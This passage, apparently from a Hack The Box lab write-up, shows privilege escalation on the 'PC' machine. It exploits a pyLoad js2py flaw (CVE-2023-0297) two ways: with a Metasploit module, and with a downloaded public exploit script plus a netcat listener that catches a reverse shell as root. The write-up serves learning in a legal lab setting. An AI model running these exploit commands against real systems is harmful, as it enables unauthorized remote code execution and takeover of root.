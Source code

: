 ```bash
msf6 > use exploit/linux/http/pyload_js2py_exec
msf6 exploit(linux/http/pyload_js2py_exec) > set RHOSTS 127.0.0.1
msf6 exploit(linux/http/pyload_js2py_exec) > set SRVHOST tun0
msf6 exploit(linux/http/pyload_js2py_exec) > set LHOST tun0
msf6 > run
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-pc/2023-08-20 03_05_21-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Meterpreter Session running as root</i></center>
<br/>

##### **<strong><font color="DarkKhaki">Exploitation without Metasploit:</font></strong>**

We can follow the steps below to exploit this vulnerability without relying on Metasploit:

**1-** Download this python [script](https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py) on your attacking machine
```bash
$ wget https://raw.githubusercontent.com/JacobEbben/CVE-2023-0297/main/exploit.py
```
**2-** Start a netcat listener on port 9999 (Or any port of your choice):
```bash
nc -nlvp 9999
```
**3-** Run the exploit using the following command:
```bash
python3 exploit.py -t http://127.0.0.1:9666 -I 10.10.14.107 -P 9999
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/htb-pc/2023-08-20 03_37_52-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>Exploitation Successful</i></center>
<br/>

**4-** Check your netcat listener: <br/>

